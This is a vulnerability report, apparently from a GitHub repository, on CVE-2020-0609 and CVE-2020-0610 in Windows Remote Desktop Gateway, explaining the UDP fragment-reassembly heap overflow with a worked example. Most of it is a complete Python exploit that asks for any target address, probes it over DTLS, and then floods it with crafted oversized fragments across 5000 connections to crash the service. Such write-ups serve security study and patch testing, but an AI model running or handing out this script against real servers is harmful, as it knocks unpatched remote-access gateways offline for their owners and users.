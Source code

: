 
<div align="center"><h1>CVE-2020-0609 and CVE-2020-0610 REPORT</h1></div>

## About the vulnerability

A remote code execution vulnerability exists in Windows Remote Desktop Gateway (RD Gateway) when an unauthenticated attacker connects to the target system using RDP and sends specially crafted requests. This vulnerability is pre-authentication and requires no user interaction. An attacker who successfully exploited this vulnerability could execute arbitrary code on the target system.  
To exploit this vulnerability, an attacker would need to send a specially crafted request to the target systems RD Gateway via RDP.

**On versions:** Windows Server 2012, 2012 R2, 2016, 2019

## Explanation

The RDG UDP protocol splits the message into multiple packets to transport them. Since UDP is connectionless these packets can arrive in any order. The packets are reassembled at the recipient using the packet headers fragment_id, num_fragments, fragment_length. The function implemented to reassemble the packets has some bugs which lead to this vulnerability.
To summarise the packet reassembly algorithm used : we first allocate memory on the heap to act as a buffer and then divide this buffer into many sections of size (= max_fragment_size). Now whenever a packet arrives, we check if we have received that fragment before using its id, if we have not received that fragment before we copy its contents to the buffer. we copy the entirety of the fragment to the address (&buffer + fragment_id * max_fragment_size). Later when all packets have arrived we simply concatenate all the sections and end up with the actual message.

The problem arises because the size of all the sections required to hold all the packets may be much more than the actual size of the message and therefore the buffer. Thus we can write data on the heap outside the memory which was allocated for us, overwriting other important data this causes the process to run into errors and crash leading to a DOS.

Say the message length is 500, max fragment size is 1000
we can have two packets
packet (id=0) : length = 300
packet (id=1) : length = 200
and the assigned buffer size is 1000
packet 0 is written to the buffer at offset 0 (0 * max_fragment_size) and
packet 1 is written to the buffer at offset 1000 (1 * max_fragment_size)
we can see that packet 1 is written beyond the memory assigned to the buffer and this leads to an overflow even though the buffer was big enough to hold the message.

## Exploit

```
import struct
import ssl
import sys
import signal
from socket import socket, AF_INET, SOCK_DGRAM
from dtls import do_patch, sslconnection

target = input("=> Target website/IP address : ")
port = int(input("=> Port number : "))

#Creating and wrapping SSL socket and establishing connection with target
def open_socket(target1, port1):
    socket1 = ssl.wrap_socket(socket(AF_INET, SOCK_DGRAM))
    setattr(socket1, "ssl_version", sslconnection.PROTOCOL_DTLSv1)
    socket1.connect((target1, port1))
    return socket1

#Creating packets for checking presence of vulnerability and also for DoS attack
def dos_packet(frag_no, frag_id):
    frag = "A" * 2000
    buffer1 = struct.pack("<HHHHH", 5, 2006, frag_id, frag_no, 2000)
    buffer1 += frag.encode()
    return buffer1

#Check if the server is vulnerable
do_patch()
socketA = open_socket(target, port)
packetA = dos_packet(100, 0)
socketA.write(packetA)
signal.signal(signal.SIGALRM, lambda signum, frame: None)
signal.alarm(5)
vuln = False

try:
    response = socketA.recv(16)[-4:]
    value = struct.unpack("<L", response)[0]
    vuln = value != 0x8000ffff
except:
    vuln = True
signal.alarm(0)
socketA.close()

#If vulnerable, Initiating DoS attack
if vuln:
    print("Target is vulnerable.\nInitiating DoS attack.")
    do_patch()
    for i in range(5000):
        socket1 = open_socket(target, port)
        for j in range(10):
            packet = dos_packet(i, i)
            socket1.write(packet)
        socket1.close()

else:
    print("Target not vulnerable.")
```
[Exploit on github](https://github.com/yash-bansod/Techmeet21-SAPTANG/blob/chall3/chall3/exploit_CVE-2020-0609.py)

This exploit was tested on Windows server 2019 and performs DOS on Windows server 2019.

## Proof of Concept

[PoC video](https://www.youtube.com/watch?v=0jWB87UaN10)
